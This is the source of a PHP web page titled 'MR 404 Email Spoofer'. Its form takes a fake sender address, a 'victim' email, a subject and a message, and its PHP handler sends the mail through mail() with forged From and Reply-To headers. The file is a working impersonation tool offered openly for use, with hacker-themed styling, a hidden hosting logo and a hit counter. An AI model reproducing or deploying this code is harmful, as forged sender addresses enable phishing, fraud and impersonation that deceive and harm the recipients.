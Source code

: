 <!DOCTYPE html>
<html lang=en>
    <head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
       
        <title>MR 404 । Email Spoofing</title>
       
            <div>
      <style>
      body {
       background-image: url("https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiuUubeyMHMUEDTAtV7F4fm5FvJVv3USd2sjtWV_g4Qa6AvonNRLbEvnoGHolQ9YOo6RdNzAIzGlm69wlmMgLFgsMAc51ifLwfEGq27MMQ9bvFgS9fJ2aliEhLmvaZ4jJPhfXAwk0NlQXe4eN3j47hupM6JUFAcqyXCVwrKueKfEqveYoZ1oH4BfzJz/s498/hacking-hacker.gif");
        }
     </style>
     </div>
   <br>
       
        <body bgcolor=black text=00ff00>
           
        </head>
        <style>img[src*="https://cdn.000webhost.com/000webhost/logo/footer-powered-by-000webhost-white2.png"] {  display:none;}</style>
        <body>
            <link rel="image_src" href="https://1.bp.blogspot.com/-R-Cl-Xm2TVE/YIUJuE8ydfI/AAAAAAAAANc/L7VMBKw73pAKcPbdvl_TTy3I7o0LZwx0gCLcBGAsYHQ/s840/1598842869195-02.jpeg" />
 <link rel = "icon" href = "/logo.png" type = "image/x-icon">
        <header align=center>
            <h1> MR 404 Email Spoofer </h1>
        </header>
        <section>
            <form method="post" action="#">
                <table border="0">
                    <tr><td>EMail To Show: </td><td><input type=email name=email placeholder="fakemail@mr404.com" /></td></tr>
                    <tr><td>Email id of Person: </td><td><input type=email name=mail placeholder="Enter victim Email" /></td></tr>
                    <tr><td>Subject to EMail : </td><td><input type=text name=subj placeholder="Enter Subject for Mail" /></td></tr>
                    <tr><td valign=top>Message to Person : </td><td><textarea name=msg rows=8 cols=30 ></textarea></td></tr>
                    <tr><td><input type=reset value="Reset All" /></td><td><input type=submit name=sub value="Send Fake Mail" /></td></tr>
                </table>
            </form>
        </section>
        <footer align=center>
            <p> Thank you to <a href="http://m.Facebook.com/Md.Moajjem.Hossen.4O4" target="_blank">Moajjem</a> Copyright &copy; <a href="http://www.moajjem404.blogspot.com">MR 404</a></p>
        </footer>
    </body>
</html>
<?php if (isset($_POST['sub']) || !empty($_POST['mail'])) {
    $Slave = $_POST['mail'];
    $msg = $_POST['msg'];
    $subj = $_POST['subj'];
    $spoo = $_POST['email'];
    $headers = 'From:'.$spoo. "\r\n" .
            'Reply-To:'.$spoo. "\r\n" .
            'X-Mailer: PHP/' . phpversion();
        $mail = mail($Slave, $subj, $msg, $headers);
    if($mail) {
        echo "Spoof Mail Sent successfully
";
    } else {
        echo "Mail was not Sent
";
    }
} else {
    echo "Please fill all the form Properly";
}
?>
<!-- hitwebcounter Code START -->
<a href="https://www.hitwebcounter.com" target="_blank">
<img src="https://hitwebcounter.com/counter/counter.php?page=7958707&style=0009&nbdigits=6&type=page&initCount=0" title="Free Counter" Alt="web counter"   border="0" /></a>
